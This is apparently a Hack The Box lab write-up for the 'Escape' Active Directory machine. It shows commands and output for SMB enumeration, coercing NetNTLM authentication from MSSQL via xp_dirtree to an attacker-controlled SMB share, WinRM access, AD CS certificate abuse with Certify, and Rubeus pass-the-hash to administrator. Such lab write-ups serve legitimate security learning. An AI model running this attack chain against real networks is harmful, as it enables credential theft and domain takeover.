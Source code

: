```yaml
---
title: "Hack The Box - Escape [Medium]"
date: 2023-06-10T02:01:27+03:00
draft: false
tags: ["hackthebox"]
---
```


This is a Windows Machine which is part of an Active Directory. I would try my best to explain the stuff that I did, since that I've seen pretty bad write-ups that are not explaining anything. I also want to be honest, and I will link every write-up that I used to exploit the machine. 

I am still learning Active Directory at the time of writing this, so there might be errors, I will do my best to mitigate that!

## Enumerating

I started with a simple `nmap` scan.

```bash
$ nmap -Pn 10.10.11.202
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Now since I am new to Active Directory I turned to https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb to check what I can try.

Eventually, after trying most of them, I landed on `smbclient`

```bash
$ smbclient --no-pass -L 10.10.11.202
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Public          Disk      
SYSVOL          Disk      Logon server share 
```

This is a list of shared folders, the one that we can take a look at is `Public`

```bash
$ smbclient -N //10.10.11.202/Public
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022

  5184255 blocks of size 4096. 1276406 blocks available
smb: \> get "SQL Server Procedures.pdf"
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (62.8 KiloBytes/sec) (average 62.8 KiloBytes/sec)
```

Opening, the PDF states that we can use `PublicUser:GuestUserCantWrite1` to log in to the SQL Server. We can use the `impacket-mssqlclient` which is a tool 

```bash
$ impacket-mssqlclient WORKGROUP/PublicUser:GuestUserCantWrite1@10.10.11.202
```

Once I was in I started enumerating the database, looking at this and that, but I had no luck, I turned to some write-ups to follow up.

Now most of the write-ups are just skipping the explanation of this step, but I think that it is really important to know what's going on, so I will do my best to explain it.

Following up this https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack attack, I tried the following thing:

I checked if I can execute `xp_dirtree`:

```SQL
SQL> EXEC sp_helprotect 'xp_dirtree';
Owner    Object                 Grantee        Grantor   ProtectType   Action           Column   

------   --------------------   ------------   -------   -----------   --------------   ------   

sys      xp_dirtree             public         dbo       b'Grant     '   Execute          .        
```

It turns out I can, so to capture the authentication hash, I need to set up an SMB server:

```bash
# My Machine
$ impacket-smbserver -smb2support smb ./smb
```

And then to execute the `xp_dirtree` on the SQL Server

```SQL
SQL> exec master.dbo.xp_dirtree '\\<myIP>\smb'
```

Doing this would catch the `AUTHENTICATE_MESSAGE`, the user and the hash.

```bash
$ impacket-smbserver -smb2support smb ./smb

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,52180)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:84e0a29415d2823f80593c9bc45d158c:010100000000000080fba2b8945ed9010f6267444f7024440000000001001000780056007a005000590061005000570003001000780056007a0050005900610050005700020010006c004f0054006f006f00540076007700040010006c004f0054006f006f005400760077000700080080fba2b8945ed90106000400020000000800300030000000000000000000000000300000c57e7de4e6e8e7baebb297a4bfc1a9019bc96f8f58ffbd9cb233cec428ece87f0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100340032000000000000000000
```

Now I need to crack the hash, I won't post the results here, so you have to figure that one on your own, it is simple enough! :) 

Using the cracked password, I can log in using the `evil-winrm`

```bash
$ evil-winrm --ip 10.10.11.202 --user sql_svc --password $(cat ./password)
```

Now, we need to start enumerating again. I used [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
*Evil-WinRM* PS C:\Users\sql_svc\Documents> upload /home/syl/tools/win/winPEASany.exe
```

I eventually stumbled across interesting files and I've enumerated the users. The interesting file was `C:\SQLServer\Logs\ERRORLOG.BAK` and upon further inspection I've got the password for the user `Ryan.Cooper`.

```bash
$ evil-winrm --ip 10.10.11.202 --user Ryan.Cooper --password $(cat ./password ryan_password)
...
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> gc ../Desktop/user.txt
<user_hash>
```

Now I needed to escalate, I've used this guide for misconfigured certificates that cause AD CS Domain Escalation. https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

I've uploaded Certify to the SQL Server (user login) and tried to find vulnerable certificates.

> **NOTE**: Certify is a tool to enumerate and abuse misconfigured AD CS, you can find its source code here: https://github.com/GhostPack/Certify. Unfortunately(or fortunately) there aren't any prebuilt binaries and you have to build it yourself. It is well explained in the README.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./Certify.exe find /vulnerable
...
[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
```

With that tool, I found a vulnerable certificate that I can use to impersonate an administrator. Following up the attack on hacktricks:

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

... CERTIFICATE ...

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

I've downloaded the certificate on my machine and ran the command to convert it to `pfx` and I've uploaded it back to the server.

Using another tool called [Rubeus](https://github.com/GhostPack/Rubeus) that I've used to send raw request for a TGT towards the DC.

```powershell
$ ./Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /password:123

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\administrator'
[*] Using domain controller: fe80::5438:a078:e66d:b560%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
...
[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : <NTLM HASH>
```

Now, that gave me the NTLM Hash, which is the cryptographic format in which user passwords are stored on Windows systems.

I can use that with:

```
$ evil-winrm -H "<NTLM HASH>" -u "administrator" -i 10.10.11.202
M* PS C:\Users\Administrator\Documents> gc ../Desktop/root.txt
<root_hash>
```


# References

- https://blog.zerospl0it.com/posts/Escape/
- https://yu8pentest.blogspot.com/2023/02/escape.html
- https://medium.com/@Kushagra007/writeup-escape-hackthebox-dbee2d761d15
- https://breached.vc/Thread-Escape-HTB-Discussion?highlight=escape
